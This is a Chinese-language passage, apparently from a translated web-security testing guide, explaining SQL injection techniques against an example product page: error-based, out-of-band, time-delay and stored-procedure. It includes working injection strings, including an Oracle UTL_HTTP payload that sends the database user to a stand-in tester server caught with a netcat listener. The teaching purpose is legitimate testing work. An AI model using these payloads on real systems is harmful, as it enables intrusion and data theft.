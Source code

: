```

这里的重点是尝试从数据库中提取一些数据并将其显示在错误消息中。对于不同的DBMS，此技术可能有所不同（请参阅DBMS特定部分）。

考虑以下SQL查询：```SELECT * FROM products WHERE id_product=$id_product```

还考虑对执行上述查询的脚本的请求：```http://www.example.com/product.php?id=10```

恶意请求将是（例如Oracle 10g）：```http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--```

在此示例中，测试人员将值10与函数```UTL_INADDR.GET_HOST_NAME```的结果连接在一起。该Oracle函数将尝试返回传递给它的参数的主机名，即另一个查询```SELECT user FROM DUAL```(其结果为用户名）。当数据库使用用户数据库名查找主机名时，它将失败并返回如下错误消息：

```ORA-292257: host SCOTT unknown```

然后，测试人员可以改变传递给GET_HOST_NAME（）函数的参数，结果将显示在错误消息中。

#### Out of Band Exploitation Technique
这个技术也是盲注中常用的。该技术使用DBMS执行带外连接，并将注入查询的结果作为请求的一部分传递给测试的服务器。像基于错误的技术一样，每个DBMS都有自己的函数，所以使用前要确定DBMS类型。

考虑以下SQL查询：```SELECT * FROM products WHERE id_product=$id_product```

还考虑对执行上述查询的脚本的请求：```http://www.example.com/product.php?id=10```

恶意请求将是：```http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--```

在此示例中，测试人员将值10与函数的结果连接在一起UTL_HTTP.request。该Oracle函数将尝试连接到testerserver一个HTTP GET请求并包含查询返回信息SELECT user FROM DUAL。测试人员可以设置网络服务器（例如Apache）或使用Netcat工具：
```/home/tester/nc –nLp 80```

显示结果
```
GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```

#### 时间延迟渗透技术
这个技术也是盲注中常用的。该技术包括发送一个注入的查询，并且在条件为真的情况下，测试人员可以监视服务器响应所花费的时间。如果存在延迟，则测试人员可以假定条件查询的结果为true。对于不同的DBMS，此开发技术可能有所不同（请参阅DBMS特定部分）。
考虑以下SQL查询：```SELECT * FROM products WHERE id_product=$id_product```

还考虑对执行上述查询的脚本的请求：```http://www.example.com/product.php?id=10```

恶意请求将是（例如MySql 5.x）：```http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--```

在此示例中，测试人员正在检查MySql版本是否为5.x，从而使服务器将答案延迟10秒。测试仪可以增加延迟时间并监视响应。测试人员也不需要等待响应。有时，他可以设置一个很高的值（例如100），并在几秒钟后取消请求。

#### 存储过程渗透技术

在存储过程中使用动态SQL时，应用程序必须正确清理用户输入，以消除代码注入的风险。如果未清除，则用户可能会输入将在存储过程中执行的恶意SQL。

请考虑以下SQL Server存储过程：
```
Create procedure user_login @username varchar(20), @passwd varchar(20)
As
Declare @sqlstring varchar(250)
Set @sqlstring  = ‘
Select 1 from users
Where username = ‘ + @username + ‘ and passwd = ‘ + @passwd
exec(@sqlstring)